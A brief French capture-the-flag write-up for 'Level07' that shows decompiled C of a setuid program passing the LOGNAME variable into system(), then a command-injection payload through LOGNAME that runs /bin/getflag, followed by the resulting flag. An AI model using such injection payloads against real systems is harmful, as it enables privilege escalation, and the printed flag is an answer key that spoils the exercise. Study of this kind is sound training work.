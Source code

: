 ## Level07:

https://dogbolt.org/?id=c0805f22-ef97-46b0-83aa-91f95bdac7f7#Ghidra=190
on passe l'executable dans un decompileur en ligne ci dessus
On remarque ceci : 
```c
int main(int argc,char **argv,char **envp)

{
  char *pcVar1;
  int iVar2;
  char *buffer;
  gid_t gid;
  uid_t uid;
  char *local_1c;
  __gid_t local_18;
  __uid_t local_14;
  
  local_18 = getegid();
  local_14 = geteuid();
  setresgid(local_18,local_18,local_18);
  setresuid(local_14,local_14,local_14);
  local_1c = (char *)0x0;
  pcVar1 = getenv("LOGNAME");
  asprintf(&local_1c,"/bin/echo %s ",pcVar1);
  iVar2 = system(local_1c);
  return iVar2;
}

```
la ligne qui nous interesse c'est `getenv("LOGNAME")`

On fait un injection de code grace a cette env telque : 
` export LOGNAME='$(/bin/getflag) > /tmp/key.txt'`
et on va regarder tout simplement dans le fichier notre key : fiumuikeil55xe9cu4dood66h
